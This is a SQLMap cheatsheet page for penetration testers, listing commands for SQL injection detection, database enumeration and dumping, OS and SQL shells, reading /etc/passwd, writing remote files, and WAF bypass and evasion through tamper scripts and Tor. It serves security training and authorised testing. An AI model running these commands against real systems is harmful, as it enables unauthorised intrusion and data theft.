

import { Tab, Tabs } from 'fumadocs-ui/components/tabs';
import { Step, Steps } from 'fumadocs-ui/components/steps';
import { Accordion, Accordions } from 'fumadocs-ui/components/accordion';



# SQLMap Cheatsheet

<Callout title="What is SQLMap?" type="info">
  SQLMap is an open-source penetration testing tool that automates the process of detecting and exploiting SQL injection vulnerabilities in web applications. It comes with a powerful detection engine and many features for penetration testing.
</Callout>

## 1. Basic Usage

<Tabs items={["Installation", "Basic Commands", "Target Specification", "Request Options"]}>
  <Tab>
    <div className="p-4 border rounded-lg bg-white dark:bg-gray-800 my-4">
      <h4 className="font-bold mb-2 text-blue-600 dark:text-blue-400">Installation & Setup</h4>
      
      ```bash
      # On Kali Linux (pre-installed)
      sqlmap --version
      
      # Using Git
      git clone --depth 1 https://github.com/sqlmapproject/sqlmap.git sqlmap-dev
      cd sqlmap-dev
      python3 sqlmap.py --version
      
      # Update SQLMap
      sqlmap --update
      ```
    </div>
  </Tab>
  <Tab>
    <div className="p-4 border rounded-lg bg-white dark:bg-gray-800 my-4">
      <h4 className="font-bold mb-2 text-green-600 dark:text-green-400">Essential Commands</h4>
      
      ```bash
      # Basic scan
      sqlmap -u "http://target.com/page.php?id=1"
      
      # Interactive wizard for beginners
      sqlmap --wizard
      
      # List all options
      sqlmap -hh
      
      # Run with default behavior
      sqlmap -u "http://target.com/?id=1" --batch
      ```
    </div>
  </Tab>
  <Tab>
    <div className="p-4 border rounded-lg bg-white dark:bg-gray-800 my-4">
      <h4 className="font-bold mb-2 text-purple-600 dark:text-purple-400">Target Specification</h4>
      
      ```bash
      # URL target
      sqlmap -u "http://target.com/?id=1"
      
      # POST data
      sqlmap -u "http://target.com/login.php" --data="user=admin&pass=admin"
      
      # From request file
      sqlmap -r request.txt
      
      # Multiple targets
      sqlmap -m targets.txt
      ```
    </div>
  </Tab>
  <Tab>
    <div className="p-4 border rounded-lg bg-white dark:bg-gray-800 my-4">
      <h4 className="font-bold mb-2 text-red-600 dark:text-red-400">Request Configuration</h4>
      
      ```bash
      # With cookie
      sqlmap -u "URL" --cookie="PHPSESSID=123abc"
      
      # Custom headers
      sqlmap -u "URL" --headers="User-Agent: Mozilla\nCookie: session=123"
      
      # HTTP method
      sqlmap -u "URL" --method=PUT
      
      # Proxy
      sqlmap -u "URL" --proxy="http://127.0.0.1:8080"
      ```
    </div>
  </Tab>
</Tabs>

## 2. Detection & Exploitation

<Tabs items={["Detection Options", "Techniques", "Database Enumeration", "Advanced Options"]}>
  <Tab>
    <div className="p-4 border rounded-lg bg-white dark:bg-gray-800 my-4">
      <h4 className="font-bold mb-2 text-blue-600 dark:text-blue-400">Detection Settings</h4>
      
      ```bash
      # Risk and Level
      sqlmap -u "URL" --risk=3 --level=5
      
      # Specific parameter testing
      sqlmap -u "URL" -p "id,user"
      
      # Test forms
      sqlmap -u "URL" --forms
      
      # Specific DBMS
      sqlmap -u "URL" --dbms="mysql"
      ```
    </div>
  </Tab>
  <Tab>
    <div className="p-4 border rounded-lg bg-white dark:bg-gray-800 my-4">
      <h4 className="font-bold mb-2 text-green-600 dark:text-green-400">Injection Techniques</h4>
      
      ```bash
      # Specify techniques
      sqlmap -u "URL" --technique=BEUSTQ
      
      # B: Boolean-based blind
      # E: Error-based
      # U: Union query-based
      # S: Stacked queries
      # T: Time-based blind
      # Q: Inline queries
      
      # Time delay
      sqlmap -u "URL" --time-sec=10
      ```
    </div>
  </Tab>
  <Tab>
    <div className="p-4 border rounded-lg bg-white dark:bg-gray-800 my-4">
      <h4 className="font-bold mb-2 text-purple-600 dark:text-purple-400">Database Enumeration</h4>
      
      ```bash
      # List databases
      sqlmap -u "URL" --dbs
      
      # List tables
      sqlmap -u "URL" -D dbname --tables
      
      # List columns
      sqlmap -u "URL" -D dbname -T tablename --columns
      
      # Dump data
      sqlmap -u "URL" -D dbname -T tablename --dump
      ```
    </div>
  </Tab>
  <Tab>
    <div className="p-4 border rounded-lg bg-white dark:bg-gray-800 my-4">
      <h4 className="font-bold mb-2 text-red-600 dark:text-red-400">Advanced Features</h4>
      
      ```bash
      # OS Shell
      sqlmap -u "URL" --os-shell
      
      # SQL Shell
      sqlmap -u "URL" --sql-shell
      
      # File read
      sqlmap -u "URL" --file-read="/etc/passwd"
      
      # File write
      sqlmap -u "URL" --file-write="local.txt" --file-dest="/tmp/remote.txt"
      ```
    </div>
  </Tab>
</Tabs>

## 3. WAF Bypass & Optimization

<Tabs items={["Tamper Scripts", "Optimization", "Evasion", "Output Options"]}>
  <Tab>
    <div className="p-4 border rounded-lg bg-white dark:bg-gray-800 my-4">
      <h4 className="font-bold mb-2 text-blue-600 dark:text-blue-400">Tamper Scripts</h4>
      
      ```bash
      # List available tamper scripts
      sqlmap --list-tampers
      
      # Common tamper combinations
      sqlmap -u "URL" --tamper=space2comment,between,randomcase
      
      # Bypass WAF
      sqlmap -u "URL" --tamper=between,space2comment,randomcase,charencode
      
      # Encoding tampers
      sqlmap -u "URL" --tamper=base64encode,charencode
      ```
    </div>
  </Tab>
  <Tab>
    <div className="p-4 border rounded-lg bg-white dark:bg-gray-800 my-4">
      <h4 className="font-bold mb-2 text-green-600 dark:text-green-400">Performance Optimization</h4>
      
      ```bash
      # Threading
      sqlmap -u "URL" --threads=10
      
      # Optimize switches
      sqlmap -u "URL" -o
      
      # Reduce requests
      sqlmap -u "URL" --predict-output
      
      # Keep alive
      sqlmap -u "URL" --keep-alive
      ```
    </div>
  </Tab>
  <Tab>
    <div className="p-4 border rounded-lg bg-white dark:bg-gray-800 my-4">
      <h4 className="font-bold mb-2 text-purple-600 dark:text-purple-400">Evasion Techniques</h4>
      
      ```bash
      # Random User-Agent
      sqlmap -u "URL" --random-agent
      
      # Custom User-Agent
      sqlmap -u "URL" --user-agent="Custom"
      
      # Tor network
      sqlmap -u "URL" --tor --check-tor
      
      # Time delays
      sqlmap -u "URL" --safe-url="http://target.com" --safe-freq=3
      ```
    </div>
  </Tab>
  <Tab>
    <div className="p-4 border rounded-lg bg-white dark:bg-gray-800 my-4">
      <h4 className="font-bold mb-2 text-red-600 dark:text-red-400">Output Control</h4>
      
      ```bash
      # Verbosity level
      sqlmap -u "URL" -v 3
      
      # Save to file
      sqlmap -u "URL" -o --output-dir="results"
      
      # Format output
      sqlmap -u "URL" --dump-format=CSV
      
      # Save session
      sqlmap -u "URL" --session="session_file"
      ```
    </div>
  </Tab>
</Tabs>

## Sources

- [Official SQLMap Documentation](https://github.com/sqlmapproject/sqlmap/wiki)
- [SQLMap Project Repository](https://github.com/sqlmapproject/sqlmap)
- [OWASP SQLMap CheatSheet](https://www.owasp.org/index.php/SQL_Injection_Prevention_Cheat_Sheet)
- [SQLMap User's Manual](https://github.com/sqlmapproject/sqlmap/wiki/Usage)
- [SQLMap Tamper Scripts Documentation](https://github.com/sqlmapproject/sqlmap/tree/master/tamper)
- [RGBwiki SQLMap Cheatsheet](https://github.com/tylerdotrar/RGBwiki/blob/main/vault/Red%20Cell/11.%20Web%20Exploitation/SQLmap%20Cheatsheet.md)
- [Anonymous Knowledge SQLMap Guide](https://medium.com/@AnonymousKnowledge/sqlmap-cheat-sheet-7b808bf658fe)
- [Beginner Ethical Hacking SQLMap Guide](https://github.com/badboysm890/CheatSheet-Beginner-EthicalHacking/blob/gh-pages/SQLmap-Cheatsheet.md)
- [Mahim Firoj's SQLMap Tutorial](https://mahim-firoj.medium.com/sqlmap-cheat-sheet-15fe7fff2e8c)
- [Abricto Security SQLMap Guide](https://abrictosecurity.com/sqlmap-cheatsheet-and-examples/)
- [Euskadi Cybersecurity SQLMap Guide](https://ciberseguridad.euskadi.eus/contenidos/enlace/cyb_cheatsheet_1/es_def/adjuntos/CheatSheet_SQLmap.pdf)
- [StationX SQLMap Cheatsheet](https://www.stationx.net/sqlmap-cheat-sheet/)